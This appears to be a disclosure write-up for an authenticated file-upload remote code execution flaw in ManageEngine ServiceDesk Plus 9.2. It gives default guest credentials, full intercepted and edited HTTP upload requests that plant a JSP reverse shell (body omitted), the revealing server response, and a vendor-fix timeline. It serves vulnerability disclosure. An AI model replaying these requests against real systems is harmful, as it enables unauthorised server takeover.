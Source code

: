 # manageeningefileupload

# Exploit Title: Authenticated Remote Code Execution via File Upload Vulnerability in ManageEngine ServiceDesk Plus (Authenticated)
# Date: 14-Nov-2016
# Discovered by Omer Alper Karakus (omeralperkarakus[at]gmail.com), Abdullah Sinan Sekerci (lpthread999[at]gmail.com), Anil Aytac (4nl[at]aytac.email), Asli Koksal (koksal.a[at]gmail.com), STM
# Affected Product: ManageEngine ServiceDesk Plus
# Tested on: v9.2 build number 9232

File upload vulnerability can only be exploited by an authenticated user which can also be any low privileged user like guest (default account: u:guest/p:guest)
This vulnerability can be exploited by uploading a JSP file instead of image file. Since the file extension has been checked on the client side, it is possible to upload a jsp file which contains a reverse shell by intercepting the request and changing the file extension from .jsp.jpg to .jsp.


REQUEST:
===========================================================================================
POST /jsp/UploadImage.jsp HTTP/1.1
Host: 192.168.56.142:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.142:8080/WorkOrder.do?1479198413617&
Cookie: JSESSIONID=FE6E5837539BFDE8DA78680F00B251A2; JSESSIONIDSSO=B469F14D393E3113D28896A41F79B0D8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------229512600118535
Content-Length: 1902

-----------------------------229512600118535
Content-Disposition: form-data; name="img_file"; filename="shell.jsp.jpg"
Content-Type: image/jpeg

<...JSP reverse shell code...>

-----------------------------229512600118535
Content-Disposition: form-data; name="zereqid"


-----------------------------229512600118535
Content-Disposition: form-data; name="Module"

WorkOrder
-----------------------------229512600118535--


EDITED REQUEST:
===========================================================================================
POST /jsp/UploadImage.jsp HTTP/1.1
Host: 192.168.56.142:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.142:8080/WorkOrder.do?1479198413617&
Cookie: JSESSIONID=FE6E5837539BFDE8DA78680F00B251A2; JSESSIONIDSSO=B469F14D393E3113D28896A41F79B0D8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------229512600118535
Content-Length: 1902

-----------------------------229512600118535
Content-Disposition: form-data; name="img_file"; filename="shell.jsp"
Content-Type: image/jpeg

<...JSP reverse shell code...>

-----------------------------229512600118535
Content-Disposition: form-data; name="zereqid"


-----------------------------229512600118535
Content-Disposition: form-data; name="Module"

WorkOrder
-----------------------------229512600118535--


After a succesful request, the response shows us the location of our reverse shell file:
RESPONSE
===========================================================================================
HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8
Content-Length: 528
Date: Tue, 15 Nov 2016 08:27:55 GMT
Connection: close
Server: -
		<script lang="JavaScript" type="text/JavaScript">
  		var formName = parent.document.getElementById("FORMNAME").value;
		var opts = parent.document.forms[formName].INLINEIMAGES.options;
		var imgName = "1479198475119.jsp";
		var option = new Option(imgName, imgName);
		option.selected = true;
		opts[opts.length] = option;
  		//alert("/inline/"+"WorkOrder"+"/"+"4"+"/"+"1479198475119.jsp");
  		parent.ZE.activeEditor.previewImage("/inline/"+"WorkOrder"+"/"+"4"+"/"+"1479198475119.jsp");//No i18n
		</script>
		
		

Timeline
======
 
15-Nov-2016 – Notification to Vendor
18-Nov-2016 – Response from Vendor
01-Dec-2016 - Issue has been fixed by vendor https://www.manageengine.com/products/service-desk/readme-9.2.html
